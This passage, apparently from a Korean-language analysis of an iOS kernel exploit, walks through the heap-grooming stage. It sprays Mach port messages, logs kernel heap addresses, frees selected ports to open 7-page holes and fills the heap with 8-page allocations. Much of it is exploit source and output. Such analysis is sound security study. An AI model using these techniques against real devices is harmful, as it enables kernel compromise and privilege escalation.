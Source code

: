 ```cpp
    INFO("spray(port=0x%x)'s msgdata_kptr = 0x%llx\n", spray, kmsgdata_kptr);
    // getchar();
    //
    #endif
```

여기까지 실행해봤을때, 
각 10개의 포트들에 **0x72 또는 0x74 버퍼들**로 이루어진 커널 메시지 주소는 다음과 같이 나왔다.

**saved_ports[6]** 이후부터는 커널 힙 할당이 **0xffffffe0cXXXXXXX 부터 제공받는것**을 알 수 있다.

```cpp
[*] Doing stage 0 heap setup
[*] saved_ports[0](port=0x1603)'s msgdata_kptr = 0xffffffe02cff7048
[*] saved_ports[1](port=0x1703)'s msgdata_kptr = 0xffffffe02d9eb048
[*] saved_ports[2](port=0x1803)'s msgdata_kptr = 0xffffffe02e3df048
[*] saved_ports[3](port=0x2703)'s msgdata_kptr = 0xffffffe02edd3048
[*] saved_ports[4](port=0x2603)'s msgdata_kptr = 0xffffffe02f7c7048
[*] saved_ports[5](port=0x1903)'s msgdata_kptr = 0xffffffe0301bb048
[*] saved_ports[6](port=0x1a03)'s msgdata_kptr = 0xffffffe0c395b048
[*] saved_ports[7](port=0x2503)'s msgdata_kptr = 0xffffffe0c434f048
[*] saved_ports[8](port=0x2403)'s msgdata_kptr = 0xffffffe0c4d43048
[*] saved_ports[9](port=0x1b03)'s msgdata_kptr = 0xffffffe0c5737048
```

다음으로, **`saved_ports[0, 2, 4, 5, 7, 9]`** 총 6개의 할당받았던 포트를 해제한다.

중간중간 사이에 6개의 포트를 해제시키는데,
만약 다른 프로세스가 할당받을 떄 그곳에 할당받도록 만들기 위해서이다.

추후 8페이지보다 작은 할당을 하진 않을 테니, 7페이지 크기의 hole들을 만들어서, 7페이지 이하의 작은 할당이 그 hole로 가도록 유도시키는 것으로 보인다.

```cpp
// we'll never do allocations smaller than 8 pages, so create some 7 page holes so the system can do small allocations there and leave us in peace
    mach_port_destroy(mach_task_self(), saved_ports[0]);
    mach_port_destroy(mach_task_self(), saved_ports[2]);
    mach_port_destroy(mach_task_self(), saved_ports[4]);
    mach_port_destroy(mach_task_self(), saved_ports[5]);
    mach_port_destroy(mach_task_self(), saved_ports[7]);
    mach_port_destroy(mach_task_self(), saved_ports[9]);
```

**포트 하나에 kalloc 크기 = 8페이지인 메시지를 
큐 리밋만큼 채워 커널 힙을 8페이지 블록으로 꽉 채우는** 작업이다.

```cpp
// make a bunch of 8 page allocations to ensure there are no holes that mess with our allocations
    mach_port_t spray = POP_PORT();
    msg_size = message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg);
    data = calloc(1, msg_size);
    
    #if ENABLE_HELPER
    //helper; set signature
    memset(data, 0x81, msg_size);
    #endif

    for (int i = 0; i < MACH_PORT_QLIMIT_LARGE; i++) {  //MACH_PORT_QLIMIT_LARGE = (1024)
        kern_return_t ret = send_message(spray, data, msg_size);
        if (ret) {
            printf("[-] Failed to send message\n");
            goto err;
        }
    }

    #if ENABLE_HELPER
    //helper; obtain msgdata_kptr 
    uint64_t kmsgdata_kptr = find_kmsgdata_from_port(spray);
```